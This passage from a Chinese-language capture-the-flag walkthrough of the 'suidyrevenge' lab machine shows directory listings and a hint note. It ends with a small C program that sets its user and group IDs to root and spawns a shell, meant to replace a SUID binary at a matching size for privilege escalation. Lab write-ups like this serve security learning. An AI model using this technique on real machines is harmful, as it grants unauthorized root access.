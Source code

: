 下一步应该就是获取violent用户的私钥

几个地方找了下没找到

回来看suidyyyy发现当前用户可以执行了

```Bash
theuser@suidyrevenge:/home/suidy$ ls -la
total 52
drwxrwxr-x 3 suidy suidy    4096 Oct  2  2020 .
drwxr-xr-x 8 root  root     4096 Oct  1  2020 ..
-rw------- 1 suidy suidy      25 Oct  1  2020 .bash\_history
-rwxrwx--- 1 suidy suidy     220 Oct  1  2020 .bash\_logout
-rwxrwx--- 1 suidy suidy    3526 Oct  1  2020 .bashrc
drwxr-xr-x 3 suidy suidy    4096 Oct  1  2020 .local
-rw-r----- 1 suidy suidy     262 Oct  1  2020 note.txt
-rwxrwx--- 1 suidy suidy     807 Oct  1  2020 .profile
-rwsrws--- 1 root  theuser 16712 Oct  2  2020 suidyyyyy
```
看看suidy给我们的提示

```Bash
suidy@suidyrevenge:/home/suidy$ cat note.txt
I know that theuser is not here anymore but suidyyyyy is now more secure!
root runs the script as in the past that always gives SUID to suidyyyyy binary
but this time also check the size of the file.
WE DONT WANT MORE "theuser" HERE!.
WE ARE SECURE NOW.

-suidy
```


```Bash
我知道theuser不在这里了，但suidyyyyy现在更安全了！
root像过去一样运行脚本，总是给suidyyyyy二进制文件赋予SUID权限，但这次还检查了文件的大小。
我们不希望“theuser”再出现在这里！
我们现在很安全。
-suidy
```
这里提示我们这个文件会检测文件的大小

逆向分析看看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.012.png)

直接利用靶机的gcc编译一个与他大小差不多的然后替换掉即可

```C
# include<stdlib.h>
int main(void){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

